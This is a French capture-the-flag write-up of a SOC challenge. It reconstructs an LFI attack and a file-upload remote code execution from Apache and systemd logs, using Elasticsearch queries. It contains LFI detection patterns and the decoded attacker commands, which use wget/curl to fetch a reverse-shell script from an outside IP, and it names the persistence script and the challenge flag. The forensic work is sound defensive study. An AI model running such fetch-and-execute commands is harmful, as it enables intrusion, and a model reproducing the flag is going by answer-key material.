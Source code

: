 ```yaml
---
title: DGSE CTF - Mission 2 (SOC)
date: 2025-04-27 14:15:00 +0800
categories: [DGSE CTF]
tags: [dgse, rootme, soc]
image:
  path: /assets/img/20250427/mission-02-statement.png
  alt: Brief de la mission 2.
---
```

Nous disposons de deux fichiers de logs : un provenant d’`Apache` et un autre de `systemd`. Commençons par analyser celui d’`Apache`.

Le fichier contient environ 32 000 lignes de logs. Dans un premier temps, j’ai trié les entrées par date, dans l’ordre croissant. J’ai ensuite appliqué un filtre en Query DSL afin d’identifier d’éventuelles requêtes malveillantes correspondantes à une tentative de **Local File Inclusion (LFI)** :
```json
{
  "query": {
    "bool": {
      "should": [
        {
          "wildcard": {
            "request": "*../*"
          }
        },
        {
          "wildcard": {
            "request": "*..%2f*"
          }
        },
        {
          "wildcard": {
            "request": "*php://*"
          }
        },
        {
          "wildcard": {
            "request": "*file://*"
          }
        },
        {
          "wildcard": {
            "request": "*/etc/passwd*"
          }
        },
        {
          "wildcard": {
            "request": "*input*"
          }
        },
        {
          "wildcard": {
            "request": "*expect*"
          }
        },
        {
          "wildcard": {
            "request": "*filter*"
          }
        }
      ],
      "minimum_should_match": 1
    }
  }
} 
```
Ce filtrage met effectivement en évidence plusieurs tentatives d’exploitation **LFI**, toutes semblant provenir de l’adresse IP **10.143.17.101**, aux alentours de **00h23** le **28/03/2025** :

![Desktop View](/assets/img/20250427/mission-02-LFI.png){: width="572" height="400" }
_Tentatives de LFI_

J’ai ensuite affiné la recherche en ciblant spécifiquement cette IP, sur la plage horaire allant de 00h20 à 00h40, tout en conservant uniquement les requêtes ayant reçu une réponse HTTP 200 :
```json
{
  "query": {
    "bool": {
      "must": [
        {
          "term": {
            "clientip": "10.143.17.101"
          }
        },
        {
          "range": {
            "@timestamp": {
              "gte": "2025-03-28T00:20:00.000+01:00",
              "lte": "2025-03-28T00:40:00.000+01:00"
            }
          }
        },
        {
          "term": {
            "response": 200
          }
        }
      ]
    }
  }
}
```  
Ce filtrage retourne 33 résultats. On observe qu’autour de 00h29, l’attaquant a uploadé un fichier, qu’il utilise ensuite pour exécuter des commandes à distance via le paramètre **cmd** dans l’URL.
Il s’agit donc très probablement d’une seconde vulnérabilité : un upload de fichier non sécurisé menant à une **Remote Code Execution (RCE)**.

![Desktop View](/assets/img/20250427/mission-02-upload-rce.png){: width="572" height="400" }
_file upload et RCE_

Voici les commandes récupérées après décodage des chaînes Base64 :
- `ping -c 1 google.com`
- `curl http://163.172.67.201:49999/`
- `wget http://163.172.67.201:49999/s1mpl3-r3vsh3ll-vps.sh`
- `chmod +x s1mpl3-r3vsh3ll-vps.sh`

L’attaquant semble donc récupérer son reverse shell depuis l’adresse **163.172.67.201:49999**.

Il ne reste plus qu’à identifier le chemin du fichier utilisé pour maintenir la persistance.
Pour cela, j’ai examiné les événements associés à sh dans le fichier de logs systemd, en filtrant les exécutions à partir de **00h29** :
```json
{
  "query": {
    "bool": {
      "must": [
        {
          "range": {
            "@timestamp": {
              "gte": "2025-03-28T00:29:00.000+01:00"
            }
          }
        },
        {
          "match_phrase": {
            "cmdline": ".sh"
          }
        }
      ]
    }
  }
} 
```

![Desktop View](/assets/img/20250427/mission-02-persistence.png){: width="572" height="400" }
_Fichier de persistance_

On observe alors l’exécution du script **/root/.0x00/pwn3d-by-nullv4stati0n.sh**, très certainement utilisé pour maintenir la persistance de l’accès. 

Pour récaptituler : 
- CWE de la première vulnérabilité : `Local File Inclusion -> CWE-98` ;  
- CWE de la seconde vulnérabilité : `File upload (qui mène à une RCE) -> CWE-434` ;  
- IP du serveur de l'attaquant : `163.172.67.201` ;  
- Chemin du fichier de persistance : `/root/.0x00/pwn3d-by-nullv4stati0n.sh` ;

Flag : `RM{CWE-98:CWE-434:163.172.67.201:/root/.0x00/pwn3d-by-nullv4stati0n.sh}`
